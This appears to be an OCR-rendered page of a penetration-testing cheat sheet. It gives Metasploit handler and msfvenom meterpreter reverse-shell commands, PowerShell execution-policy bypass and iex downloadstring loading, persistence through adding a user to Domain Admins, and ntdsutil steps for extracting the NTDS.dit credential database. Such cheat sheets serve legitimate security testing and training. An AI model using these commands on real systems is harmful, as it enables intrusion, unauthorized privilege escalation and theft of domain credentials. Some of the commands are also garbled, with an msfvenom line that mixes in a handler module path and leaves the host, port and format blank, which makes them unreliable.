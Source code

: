 ### **Handlers**

Metasploit handlers can be great at quickly setting up Metasploit to
be in a position to receive your incoming shells. Handlers should be in
the following format.

```
exploit/multi/handler set PAYLOAD set LHOST set LPORT set ExitOnSession false exploit -j -z
```

An example is:

```
msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension
```

# **Powershell**

**Execution Bypass**

```bash
Set-ExecutionPolicy Unrestricted
./file.ps1
```

```bash
Import-Module script.psm1
Invoke-FunctionThatIsIntheModule
```

```bash
iex(new-object system.net.webclient).downloadstring(“file:///C:\examplefile.ps1”)
```

**Powershell.exe blocked**

```bash
Use ‘not powershell’ [https://github.com/Ben0xA/nps](https://github.com/Ben0xA/nps)
```

**Persistence**

```bash
net user username "password" /ADD
```

```bash
net group "Domain Admins" %username% /DOMAIN /ADD
```

**Gather NTDS.dit file**

```bash
ntdsutil
```

```bash
activate instance ntds
```

